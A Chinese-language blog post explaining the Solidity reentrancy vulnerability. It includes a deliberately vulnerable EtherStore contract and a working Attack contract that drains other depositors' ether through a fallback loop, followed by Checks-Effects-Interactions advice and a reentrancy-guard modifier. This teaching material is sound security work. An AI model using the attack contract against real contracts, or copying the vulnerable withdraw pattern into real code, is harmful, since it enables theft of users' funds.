 ```yaml
---
date: 2022-06-17
layout: post
title: 重入漏洞分析
description: 详解重入漏洞的原理和攻击方法
image: ![Uploading IMG_4205(20220621-160652).JPG…]()
category: study
tags:
 - solidity
 - contract security
 - vulnerability analyse
author: aventusc
---
```


### 前置知识

以太坊智能合约的特点之一是合约之间可以进行相互间的外部调用。同时，以太坊的转账不仅仅局限于外部账户，合约账户同样可以拥有以太并进行转账等操作，且合约在接收以太的时候会触发 fallback 函数执行相应的逻辑，这是一种隐藏的外部调用。

**发送以太的方式：**

- `transfer` (2300 gas, 抛出错误)
- `send` (2300 gas, 返回布尔值)
- `call` (转发所有 gas 或设置 gas，返回布尔值)

*注：括号中是这个方法的执行操作，他们的第一个返回值都要么是布尔值要么是抛出错误。*

**接收以太的方式：**

接收 Ether 的合约**必须至少**具有以下函数之一

- `receive() external payable`
- `fallback() external payable`

*如果 `msg.data` 为空，则调用 `receive()` ，否则调用 `fallback()`。*

我们先给重入漏洞下个定义：可以认为合约中所有的外部调用都是不安全的，都有可能存在重入漏洞。例如：如果外部调用的目标是一个攻击者可以控制的**恶意合约A**，那么当**被攻击的合约B**在调用**恶意合约A**的时候攻击者可以执行**恶意的逻辑C**然后再重新进入到**被攻击合约B**的内部，通过这样的方式来发起一笔非预期的外部调用，从而影响**被攻击合约B**正常的执行逻辑。

### 漏洞示例

举个例子来对重入攻击的原理进行分析：

下面面的代码：`EtherStore` 就是个普通的充提币的合约，凭什么说他有重入攻击呢？我们来看这个合约的 `withdraw` 函数，这个函数中的转账操作有一个外部调用（msg.sender.call{value: bal}），所以我们就可以认为这个合约是可能有重入漏洞的，但是具体能否产生危害还需要更深入的分析：

1. 所有的外部调用都是不安全的且合约在接收以太的时候会触发 `fallback` 函数执行相应的逻辑，这是一种隐藏的外部调用，这种隐藏的外部调用是否会造成危害呢？
2. 我们可以看到在 `withdraw` 函数中是先执行外部调用进行转账后才将账户余额清零的，那我们可不可以在转账外部调用的时候构造一个恶意的逻辑合约在合约执行 `balance[msg.sender]=0` 之前一直循环调用 `withdraw` 函数一直提币从而将合约账户清空呢？

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.10;

/*
我们看到 EtherStore 合约是一个充提合约，我们可以在其中充提以太。
该合约会受到重入攻击
让我们看看为什么。

1. 部署 EtherStore 合约；
2. 用户 1（Alice）和用户 2（Bob）都分别将 1 个以太币充值到 EtherStore 合约中；
3. 攻击者 Eve 部署 Attack 合约时传入 EtherStore 合约的地址；
4. 攻击者 Eve 调用 Attack.attack 函数，Attack.attack 又调用 EtherStore.deposit 函数，
    充值 1 个以太币到 EtherStore 合约中，此时 EtherStore 合约中共有 3 个以太，
    分别为 Alice、Bob 的 2 个以太和攻击者 Eve 刚刚充值进去的 1 个以太。
    然后 Attack.attack 又调用 EtherStore.withdraw 函数将自己刚刚充值的以太取出，
    此时 EtherStore 合约中就只剩下 Alice、Bob 的 2 个以太了；

接下来会发送什么？
当 Attack.attack 调用 EtherStore.withdraw 提取了先前 Eve 充值的 1 个以太时会触发 Attack.fallback 函数。
这时只要 EtherStore 合约中的以太大于或等于 1 Attack.fallback 就会一直调用 EtherStore.withdraw 函数将 EtherStore 合约中的以太提取到 Attack 合约中，直到 EtherStore 合约中的以太小于 1 。
这样攻击者 Eve 会得到 EtherStore 合约中剩下的 2 个以太币（Alice、Bob 充值的两枚以太币）。

下面是攻击者的函数调用流程：
- Attack.attack
- EtherStore.deposit
- EtherStore.withdraw
- Attack fallback (receives 1 Ether)
- EtherStore.withdraw
- Attack.fallback (receives 1 Ether)
- EtherStore.withdraw
- Attack fallback (receives 1 Ether)
*/

contract EtherStore {
    mapping(address => uint) public balances;

    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }

    function withdraw() public {
        uint bal = balances[msg.sender];
        require(bal > 0);

        (bool sent, ) = msg.sender.call{value: bal}(""); //选择性处理多返回值，将
        require(sent, "Failed to send Ether");

        balances[msg.sender] = 0;
    }

    // Helper function to check the balance of this contract
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
}

contract Attack {
    EtherStore public etherStore;

    constructor(address _etherStoreAddress) {
        etherStore = EtherStore(_etherStoreAddress);
    }

    // Fallback is called when EtherStore sends Ether to this contract.
    fallback() external payable {
        if (address(etherStore).balance >= 1 ether) {
            etherStore.withdraw();
        }
    }

    function attack() external payable {
        require(msg.value >= 1 ether);
        etherStore.deposit{value: 1 ether}();
        etherStore.withdraw();
    }

    // Helper function to check the balance of this contract
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```

### 修复建议

1. 作为开发人员

看了上面的攻击手法相信大家对重入漏洞都会有一个自己的认知，但是只会攻击可不行，我们的目的是为了防御，那么作为开发人员如何避免写出漏洞代码还有作为审计人员如何快速发现问题代码呢，下面我们就以这两个身份来分析如何防御重入漏洞和如何在代码中快速找出重入漏洞：

- 写代码时需要遵循先判断，后写入变量在进行外部调用的编码规范（Checks-Effects-Interactions）；
- 加入防重入锁。

下面是一个防重入锁的代码示例：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.10;

contract ReEntrancyGuard {
    bool internal locked;

    modifier noReentrant() {
        require(!locked, "No re-entrancy");
        locked = true;
        _;
        locked = false;
    }
}
```

1. 作为审计人员

作为审计人员我们需要关注的是重入漏洞的特征：所有涉及到外部合约调用的代码位置都是不安全的。这样在审计过程中需要重点关注外部调用，然后推演外部调用可能产生的危害，这样就能判断这个地方是否会因为重入点而产生危害。
